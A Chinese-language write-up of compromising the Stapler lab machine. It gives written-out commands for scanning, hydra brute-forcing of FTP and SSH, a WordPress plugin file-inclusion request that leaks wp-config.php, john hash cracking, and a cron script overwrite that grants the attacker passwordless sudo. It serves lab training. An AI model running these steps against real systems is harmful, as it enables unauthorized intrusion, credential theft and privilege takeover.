

# 一、环境配置

1. 导入ovf时报错，修复方法参考这篇文章：[VMware 导入 ovf 文件格式异常报错之探解](https://ciphersaw.me/2021/07/10/exploration-of-file-format-exception-while-vmware-loads-ovf/)
2. 修该调整ovf文件中所有的\<rasd:Caption>元素与\<rasd:Description>元素的位置，使其中的元素按字母顺序排列
3. 重新计算其sha-1散列值，并在Stapler.mf 文件中替换，否则无法通过文件完整性校验
    
    
4. 再次导入ovf就不会报错了，注意保持kali的网卡模式与靶机一致

# 二、信息收集

1. 主机发现，如下，192.168.88.128就是靶机
   
   ```shell
   sudo arp-sccan -l
   ```
   
    

2. 端口扫描，如下，开放了20、21、53、80、139、666、3306、12380端口，其中21端口ftp允许匿名登录，139端口smb允许guest，版本4.3.9，系统为ubuntu，web服务为PHP cli server 5.5 or later
   
   ```shell
   sudo nmap -A -n -sT -sV -O -p- 192.168.88.128
   ```
   
    

3. nmap扫描一下主机漏洞，如下，发现smb存在漏洞
   
   ```shell
   nmap --script=vuln 192.168.88.128
   ```
   
    

4. 扫描一下web目录，发现有.bash_logout、.bashrc、.profile文件
   
   ```shell
   dirsearch -u "http://192.168.88.128" -r -i 200,301,302
   ```
   
    

# 三、getshell

## （一）ftp未授权访问

1. ftp匿名登录
   
    
    

2. ls查看存在的文件，发现存在一个note文件
    

3. 查看note文件内容，发现存在一个用户名Elly
    

4. 将Elly、elly保存到一个txt文件中，使用hydra进行爆破，爆破出ftp口令elly/ylle，可以看出用户名与密码是逆序的
   
   ```shell
   hydra -L ftp_user_name.txt -e nsr ftp://192.168.88.128
   ```
   
    

5. 使用该口令登录ftp，ls发现文件挺多仔细一分析发现似乎都是/etc下的文件，也就是说ftp挂在在/etc下
    

6. 将passwd文件get下来，查看内容，将其中有登录权限的用户复制出来
    

7. 使用hydra对上面复制出来的用户名进行ssh爆破，如下，成功爆破出弱口令
    

8. 使用爆破出来的口令进行ssh连接，成功获取shell
   
   ```shell
   ssh -oHostKeyAlgorithms=+ssh-dss SHayslett@192.168.88.128
   ```
   
    

## （二）smb共享漏洞

1. 使用enum4linux进行smb漏洞利用，将结果保存到smb_result.txt，发现存在共享目录，同样探测出了一批可登录的用户名
   
   ```shell
   enum4linux -a 192.168.88.128 | tee smb_result.txt
   ```
   
    
   
    

2. 使用上面发现的用户名进行爆破，结果与上面ftp的相同，使用smbclient登录smb共享目录tmp
   
   ```shell
   smbclient -N //192.168.88.128/tmp
   ```
   
    

3. 发现有一个ls文件，get下来，发现是一个时间同步的文件
    

4. 查看另一个smb共享目录，发现有两个目录
   
   ```shell
   smbclient -N //192.168.88.128/kathy
   ```
   
    

5. cd进去看看，发现kathy_stuff目录下有一个todo-list.txt文件，backup目录下有一个vsftpd.conf文件和一个wordpress-4.tar.gz源码压缩包

## (三)wordpress getshell

1. 访问12380端口，发现是一个网站，访问robots.txt文件，发现有两个目录
    

2. 访问admin112233目录，是个弹窗，估计可能有彩蛋
    

3. https访问blogblog目录，发现是个wordpress的网站，这个网站估计就是用上面发现的源码搭建的
    

4. 访问wp-content目录，发现有目录遍历，有plugins插件目录
    

5. 访问plugins目录发现有video插件
    
    

6. 搜索video embed插件的漏洞，发现有一个文件包含漏洞
    

7. 使用poc读取wp-config.php配置文件，执行poc后会在uploads下生成一个img图片
   
   ```shell
   http://192.168.88.128：12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php
   ```
   
    

8. 将该图片下载下来，cat查看发现就是wp-config.php的内容，得到mysql的root口令root/plbkac
   
   ```shell
   wget --no-check-certificate https://192.168.88.128:12380/blogblog/wp-content/uploads/1905091353.jpeg
   ```
   
    

9. 使用该口令登录phpmyadmin，在wordpress库中的wp_user中发现一批用户名密码，看起来与上面获取到的passwd中可登录用户差不多
    

10. 将用户名密码复制出来，使用john的rockyou.txt进行破解，破解速度比较慢
    
    ```shell
    cd /usr/share/wordlists
    sudo gunzip rockyou.txt.gz
    
    cd /home/kali/vuln/Stapler-1
    john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass
    ```
    
    

11. 使用John/incorrect登录wordpress后台，发现是管理权限，使用新增插件插件功能上传一个反弹shell的php文件，然后访问该文件即可获取shell    

# 四、权限提升

## （一）peter用户获取root权限

1. 使用grep命令查找用户密码，发现几个用户的密码
   
   ```shell
   grep -R -i pass /home/* 2>/dev/null
   ```
   
    

2. 使用peter用户登录，发现peter用户就有root权限，sudo su获取root权限
    

## （二）内核提权

1. 查看系统内核版本
   
    

2. 搜索linux kernerl 4.4.x，发现有一个符合ubuntu的提权漏洞
    

3. 由于我的kali在仅主机模式的网络下断网了，这个方法没有成功

## (三)计划任务提权

1. 查看计划任务，写入一条命令给SHayslett或其它获取了shell的用户添加root权限，等待一会后，执行sudo su即可获取root权限
   
   ```shell
   ls -al /etc/cron.d
   echo 'echo "SHayslett ALL=(ALL)NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/sbin/cron-logrotate.sh
   ```
   
    